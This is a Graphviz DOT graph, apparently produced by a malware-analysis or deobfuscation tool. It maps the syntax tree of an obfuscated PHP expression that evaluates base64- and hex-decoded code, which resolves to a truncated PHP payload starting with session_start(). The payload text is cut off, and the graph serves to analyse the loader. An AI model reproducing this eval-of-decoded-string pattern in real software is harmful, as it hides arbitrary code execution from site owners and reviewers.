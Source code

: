 digraph ast {
node [shape=none];
1245815 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245815</TD><TD border='0'><B>BinOP</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>.</TD></TR></TABLE>>];
1245815 -> 1245814 [weight=2];
1245815 -> 1245820 [weight=2];
1245815 -> 1245825 [style=dotted,label=DynamicResolution];
1245814 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245814</TD><TD border='0'><B>StringExpression</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>?&gt;</TD></TR></TABLE>>];
1245813 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245813</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
1245819 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245819</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
1245819 -> 1245817 [weight=2];
1245818 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245818</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
1245818 -> 1245819 [weight=2];
1245817 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245817</TD><TD border='0'><B>StringExpression</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>PD9waHANCnNlc3Npb25fc3RhcnQoKTsNCg0Ka...</TD></TR></TABLE>>];
1245816 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245816</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
1245823 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245823</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>Patterns</TD><TD border='0' cellpadding='5'>[4, 10, 27]</TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
1245823 -> 1245813 [weight=2];
1245823 -> 1245821 [weight=2];
1245822 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245822</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
1245822 -> 1245815 [weight=2];
1245822 -> 1245826 [style=dotted,label=DynamicResolution];
1245821 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245821</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
1245821 -> 1245822 [weight=2];
1245820 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245820</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
1245820 -> 1245816 [weight=2];
1245820 -> 1245818 [weight=2];
1245827 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245827</TD><TD border='0'><B>Payload</B></TD></TR></TABLE>>];
1245826 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245826</TD><TD border='0'><B>StringLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>?&gt;&lt;?php session_start();  if (isse...</TD></TR></TABLE>>];
1245826 -> 1245827 [style=dotted,label=Parse];
1245825 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>1245825</TD><TD border='0'><B>HexLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>3c3f7068700d0a73657373696f6e5f7374617...</TD></TR></TABLE>>];
}
